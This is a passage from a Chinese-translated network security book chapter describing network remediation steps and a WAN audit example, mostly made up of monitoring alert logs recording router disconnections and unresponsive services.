

**图 7.12** 按网络和症状划分的内部错误。

为方便起见，以下列表是分析报告中的摘要，作为下一步问题缓解措施：

### NT 服务器

- NT 服务器 SQL 守护进程重建
- NT 服务器 IPX 注册表补丁
- NT 服务器协议栈重建
- 域名服务配置（最多 25 个站）
  1. 创建主要区域。
  2. 添加站别名地址条目。
  3. 重新加载填充 DNS 表。

### DHCP 作用域配置（最多 25 个站）

1. 创建主要作用域。
2. 配置新的 IP 方案。
3. 配置站保留。
   - 站名
   - IP 地址
   - MAC 地址

### 路由器

#### 路由优化

1. 配置新的 IP 方案。
2. 验证/修改 IP 路由。

#### AppleTalk 配置

1. 配置 AppleTalk 路由。
2. 创建区域。
3. 验证/修改路由。

### 网络

#### 以太网/令牌环的 IP 方案开发

- 创建 IP 方案并相应地进行子网划分。
  - IP 方案分配
  - IP 负载均衡/优先级划分
- 为令牌环优先级配置服务器、路由器、交换机。

### 工作站

在 25 个站上实施新配置，包括：

- IP (DHCP)
- IPX/SPX
- NetBIOS over IPX/SPX
- 默认网关
- 域名服务

## 广域网审计示例

以下报告详细说明了作为广域网审计执行的服务。广域网监控会话支持从位置 A 到位置 B 的广域网网段以及与 Internet 的外部链路。此分析监控过程与各种地址、协议和服务过滤器一起使用时，能够准确有效地捕获和定位具有分层告警的网络故障区域。此捕获支持实时监控。本地和远程管理软件支持对局域网和广域网设备进行必要的监控和故障排除。

### 发现

发现参与监控会话的主要单元有：IP 地址在 206.12.15.232 和 206.12.15.238 之间，以及 NS1、NS2、IIS1、IIS2、IIS3、C6400、SQL1、EXCH2、IIS4、SQL3、NetScreen、Cisco 和 Cabletron 交换机/路由器。已发现的设备包括服务器、交换机和路由器。

## 告警与阈值

监控功能实时跟踪所有 HTTP、FTP、POP3、SMTP 和 NNTP 流量，以及自定义定义的站点访问信息。其他受监控的访问信息包括网络负载、每个用户访问的次数和频率以及拒绝尝试的汇总形式。

第 575 页列表中触发告警的解决调查包括服务器重启、服务器优化（性能、处理器）、路由器缓冲区增加、接口重置以及用 Cisco Catalyst 交换机替换菊花链式集线器连接。此次基础设施改造缓解了约 80% 的关键告警活动。

- *主机无响应。* 表示服务器或接口宕机。
- *服务无响应。* 表示使用知名端口的守护进程已宕机、过度使用、未优化或已冻结。


 - **帧冻结。** 表示应用程序挂起或工作站无响应。
- **文件重传。** 表示整个文件或文件的一部分已被重传。这通常是由于应用程序未高效使用网络所致。
- **低吞吐量。** 表示文件传输期间的平均吞吐量为 22 Kbps。
- **重定向主机。** 表示工作站正在接收 ICMP "重定向消息"，这意味着路由器或网关可能已发送该消息，以告知工作站存在更优路由或某个路由不可用。
- **LAN 过载。** 表示通常由冲突或级联及/或过度使用的集线器引起的过载（参见图 7.13）。

在五天的审计会话期间，互联网路由器遇到了 701,328 次冲突和 672 次 LAN 过载，如下方的列表所示。发现主要单元参与了监控会话：IP 地址介于 206.12.15.232 和 206.12.15.238 之间，以及 NS1、NS2、IIS1、IIS2、IIS3、C6400、SQL1、EXCH2、IIS4、SQL3、NetScreen、Cisco 和 Cabletron 交换机/路由器。已发现的设备包括服务器、交换机和路由器。



**图 7.13** LAN 过载。

| 状态 | 日志时间 | 级别 | 描述 |
|--------|----------|-------|-------------|
| 已确认 | 11/29/00 23:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 23:53 | 1 | 主机 206.12.15.236 的 SMTP 服务无响应。 |
| 已确认 | 11/29/00 23:53 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 23:53 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 23:53 | 1 | 主机 206.12.15.236 的 FTP 服务无响应。 |
| 已确认 | 11/29/00 23:43 | 1 | 主机 206.12.15.236 的 SMTP 服务无响应。 |
| 已确认 | 11/29/00 23:43 | 1 | 主机 206.12.15.236 的 FTP 服务无响应。 |
| 已确认 | 11/29/00 23:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 23:33 | 1 | 主机 206.12.15.236 的 SMTP 服务无响应。 |
| 已确认 | 11/29/00 23:33 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 23:33 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 23:33 | 1 | 主机 206.12.15.236 的 FTP 服务无响应。 |
| 已确认 | 11/29/00 23:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 23:23 | 1 | 主机 206.12.15.234 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/29/00 23:23 | 1 | 主机 206.12.15.236 的 SMTP 服务无响应。 |
| 已确认 | 11/29/00 23:23 | 1 | 主机 206.12.15.236 的 FTP 服务无响应。 |

| 状态 | 日志时间 | 级别 | 描述 |
|--------|----------|-------|-------------|
| 已确认 | 11/29/00 23:03 | 1 | 主机 iis1(10.15.1.55) 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/29/00 22:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 22:53 | 1 | 主机 206.12.15.234 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/29/00 22:53 | 1 | 主机 206.12.15.236 的 SMTP 服务无响应。 |
| 已确认 | 11/29/00 22:53 | 1 | 主机 206.12.15.236 的 FTP 服务无响应。 |
| 已确认 | 11/29/00 22:53 | 1 | 主机 206.12.15.232 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/29/00 22:53 | 1 | 主机 iis2(10.15.1.54) 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/29/00 22:53 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 22:53 | 1 | 主机 iis1(10.15.1.55) 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/29/00 22:43 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 22:43 | 1 | 主机 206.12.15.234 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/29/00 22:43 | 1 | 主机 206.12.15.236 的 SMTP 服务无响应。 |
| 已确认 | 11/29/00 22:43 | 1 | 主机 206.12.15.236 的 FTP 服务无响应。 |
| 已确认 | 11/29/00 22:43 | 1 | 主机 206.12.15.232 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/29/00 22:43 | 1 | 主机 iis2(10.15.1.54) 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/29/00 22:43 | 1 | 主机 iis1(10.15.1.55) 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/29/00 22:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 22:33 | 3 | 10.15.0.1 未在端口 4648 监听。数据包发自 208.0.121.2。 |
| 已确认 | 11/29/00 22:33 | 3 | 10.15.0.1 未在端口 4648 监听。数据包发自 208.0.121.2。 |
| 已确认 | 11/29/00 22:33 | 1 | 主机 206.12.15.236 的 SMTP 服务无响应。 |
| 已确认 | 11/29/00 22:33 | 3 | 10.15.0.1 未在端口 4648 监听。数据包发自 208.0.121.2。 |
| 已确认 | 11/29/00 22:33 | 1 | 主机 206.12.15.236 的 FTP 服务无响应。 |
| 已确认 | 11/29/00 22:33 | 3 | 10.15.0.1 未在端口 4648 监听。数据包发自 10.250.1.13。 |
| 已确认 | 11/29/00 22:33 | 3 | 10.15.0.1 未在端口 4648 监听。数据包发自 10.250.1.13。 |
| 已确认 | 11/29/00 22:33 | 3 | 10.15.0.1 未在端口 4648 监听。数据包发自 10.250.1.13。 |
| 已确认 | 11/29/00 22:33 | 3 | 10.15.0.1 未在端口 4640 监听。数据包发自 208.0.121.2。 |
| 已确认 | 11/29/00 22:33 | 1 | 主机 206.12.15.232 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/29/00 22:33 | 3 | 10.15.0.1 未在端口 4640 监听。数据包发自 10.250.1.13。 |

| 状态 | 日志时间 | 级别 | 描述 |
|--------|----------|-------|-------------|
| 已确认 | 11/29/00 22:33 | 3 | 10.15.0.1 未在端口 4641 监听。数据包发自 10.250.1.13。 |
| 已确认 | 11/29/00 22:33 | 3 | 10.15.0.1 未在端口 4641 监听。数据包发自 208.0.121.2。 |
| 已确认 | 11/29/00 22:33 | 3 | 10.15.0.1 未在端口 4641 监听。数据包发自 10.250.1.13。 |
| 已确认 | 11/29/00 22:33 | 3 | 10.15.0.1 未在端口 4640 监听。数据包发自 208.0.121.2。 |
| 已确认 | 11/29/00 22:33 | 3 | 10.15.0.1 未在端口 4641 监听。数据包发自 208.0.121.2。 |
| 已确认 | 11/29/00 22:33 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 22:33 | 3 | 10.15.0.1 未在端口 4640 监听。数据包发自 208.0.121.2。 |
| 已确认 | 11/29/00 22:33 | 3 | 10.15.0.1 未在端口 4640 监听。数据包发自 10.250.1.13。 |
| 已确认 | 11/29/00 22:33 | 3 | 10.15.0.1 未在端口 4640 监听。数据包发自 10.250.1.13。 |
| 已确认 | 11/29/00 22:33 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 22:33 | 1 | 主机 iis2(10.15.1.54) 的 HTTP(WWW) 服务无响应。 |
| 已确认 | 11/29/00 22:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 22:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 21:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 21:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 21:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 21:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 20:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 20:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 20:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 20:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 19:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 19:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 19:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 19:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 18:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 18:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |
| 已确认 | 11/29/00 18:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包发自 10.15.0.1。 |


 # 578 黑客攻击被拦截

| 状态 | 记录时间 | 级别 | 描述 |
| --- | --- | --- | --- |
| 已确认 | 11/29/00 18:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 17:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 17:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 17:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 17:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 16:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 16:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 16:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 16:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 15:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 15:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.立即 |
| 已确认 | 11/29/00 15:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 15:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 14:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 14:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 14:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 14:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 13:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 13:46 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 13:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 13:32 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 13:29 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 13:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 13:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 12:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 12:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 12:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 12:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 11:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 11:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 11:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 11:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 10:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 10:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 10:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 10:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 9:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 9:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 9:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 9:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 8:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 8:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 8:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 8:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 7:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 7:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 7:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 7:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 6:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 6:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 6:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 6:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 5:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 5:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 5:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 5:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 4:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 4:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 4:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 4:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 3:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 3:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 3:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 3:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 2:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 2:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 2:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 2:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 1:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 1:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 1:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 1:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 0:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 0:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 0:25 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/29/00 0:10 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/28/00 23:55 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/28/00 23:40 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/28/00 23:35 | 3 | 路由器与 10.15.0.5 的连接已断开。数据包来自 10.15.0.1。 |
| 已确认 | 11/28/00 23:31 | 3 | 来自 10.15.0.1 发往 206.0.139.83 的数据包被丢弃，因为路由器 10.15.0.1 无法交付到 206.0.139.83。 |
| 已确认 | 11/28/00 23:31 | 3 | 来自 10.15.0.1 发往 206.0.139.83 的数据包被丢弃，因为路由器 10.15.0.1 无法交付到 206.0.139.83。 |
| 已确认 | 11/28/00 23:31 | 1 | 主机 NS1(208.0.121.2) 未能响应。 |
| 已确认 | 11/28/00 23:31 | 1 | 主机 206.12.15.234 未能响应。 |
| 已确认 | 11/28/00 23:31 | 3 | 来自 10.15.0.1 发往 206.12.15.234 的数据包被丢弃，因为路由器 10.15.0.1 无法交付到 206.12.15.234。 |
| 已确认 | 11/28/00 23:31 | 3 | 来自 10.15.0.1 发往 208.0.121.2 的数据包被丢弃，因为路由器 10.15.0.1 无法交付到 208.0.121.2。 |
| 已确认 | 11/28/00 23:31 | 3 | 来自 10.15.0.1 发往 208.0.121.2 的数据包被丢弃，因为路由器 10.15.0.1 无法交付到 208.0.121.2。 |
| 已确认 | 11/28/00 23:31 | 3 | 来自 10.15.0.1 发往 208.0.121.2 的数据包被丢弃，因为路由器 10.15.0.1 无法交付到 208.0.121.2。 |
| 已确认 | 11/28/00 23:31 | 3 | 来自 10.15.0.1 发往 208.0.121.2 的数据包被丢弃，因为路由器 10.15.0.1 无法交付到 208.0.121.2。 |
| 已确认 | 11/28/00 23:31 | 3 | 来自 10.15.0.1 发往 206.12.15.234 的数据包被丢弃，因为路由器 10.15.0.1 无法交付到 206.12.15.234。 |
| 已确认 | 11/28/00 23:31 | 3 | 来自 10.15.0.1 发往 206.12.15.234 的数据包被丢弃，因为路由器 10.15.0.1 无法交付到 206.12.15.234。 |
| 已确认 | 11/28/00 23:31 | 3 | 来自 10.15.0.1 发往 206.12.15.237 的数据包被丢弃，因为路由器 10.15.0.1 无法交付到 206.12.15.237。 |
| 已确认 | 11/28/00 23:31 | 3 | 来自 10.15.0.1 发往 206.12.15.236 的数据包被丢弃，因为路由器 10.15.0.1 无法交付到 206.12.15.236。 |
| 已确认 | 11/28/00 23:31 | 3 | 来自 10.15.0.1 发往 206.12.15.237 的数据包被丢弃，因为路由器 10.15.0.1 无法交付到 206.12.15.237。 |

# 580 黑客攻击被拦截


 # 第 7 章 安全策略

| 状态 | 日志时间 | 级别 | 描述 |
|--------|----------|-------|-------------|
| 已确认 | 11/28/00 23:31 | 1 | 主机 206.12.15.237 无响应。 |
| 已确认 | 11/28/00 23:31 | 3 | 从 10.15.0.1 到 206.12.15.237 的数据包被丢弃，因为路由器 10.15.0.1 无法投递到 206.12.15.237。 |
| 已确认 | 11/28/00 23:31 | 3 | 从 10.15.0.1 到 206.12.15.237 的数据包被丢弃，因为路由器 10.15.0.1 无法投递到 206.12.15.237。 |
| 已确认 | 11/28/00 23:31 | 3 | 从 10.15.0.1 到 206.12.15.234 的数据包被丢弃，因为路由器 10.15.0.1 无法投递到 206.12.15.234。 |
| 已确认 | 11/28/00 23:31 | 1 | 主机 206.12.15.236 无响应。 |
| 已确认 | 11/28/00 23:31 | 3 | 从 10.15.0.1 到 206.12.15.238 的数据包被丢弃，因为路由器 10.15.0.1 无法投递到 206.12.15.238。 |
| 已确认 | 11/28/00 23:31 | 1 | 主机 site1.targetsite.com(206.12.15.238) 无响应。 |
| 已确认 | 11/28/00 23:31 | 3 | 从 10.15.0.1 到 206.12.15.236 的数据包被丢弃，因为路由器 10.15.0.1 无法投递到 206.12.15.236。 |
| 已确认 | 11/28/00 23:31 | 3 | 从 10.15.0.1 到 206.12.15.236 的数据包被丢弃，因为路由器 10.15.0.1 无法投递到 206.12.15.236。 |
| 已确认 | 11/28/00 23:31 | 3 | 从 10.15.0.1 到 206.12.15.236 的数据包被丢弃，因为路由器 10.15.0.1 无法投递到 206.12.15.236。 |
| 已确认 | 11/28/00 23:31 | 3 | 从 10.15.0.1 到 206.12.15.238 的数据包被丢弃，因为路由器 10.15.0.1 无法投递到 206.12.15.238。 |
| 已确认 | 11/28/00 23:31 | 3 | 从 10.15.0.1 到 206.0.139.83 的数据包被丢弃，因为路由器 10.15.0.1 无法投递到 206.0.139.83。 |
| 已确认 | 11/28/00 23:31 | 1 | 主机 206.12.15.232 无响应。 |
| 已确认 | 11/28/00 23:30 | 1 | 主机 fastfrog.com(206.12.15.233) 无响应。 |
| 已确认 | 11/28/00 23:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 23:21 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 23:20 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 23:20 | 1 | 主机 NS1(208.0.121.2) 无响应。 |
| 已确认 | 11/28/00 23:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 23:05 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 22:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 22:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 22:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 22:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 21:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 21:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 21:37 | 3 | 10.15.0.1 未在 161 端口监听。数据包来自 10.1.1.45。 |
| 已确认 | 11/28/00 21:37 | 3 | 10.15.0.1 未在 161 端口监听。数据包来自 10.1.1.45。 |
| 已确认 | 11/28/00 21:37 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 21:25 | 1 | 主机 site1.targetsite.com(206.12.15.238) 无响应。 |
| 已确认 | 11/28/00 21:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 20:55 | 1 | 主机 NS1(208.0.121.2) 无响应。 |
| 已确认 | 11/28/00 20:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 20:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
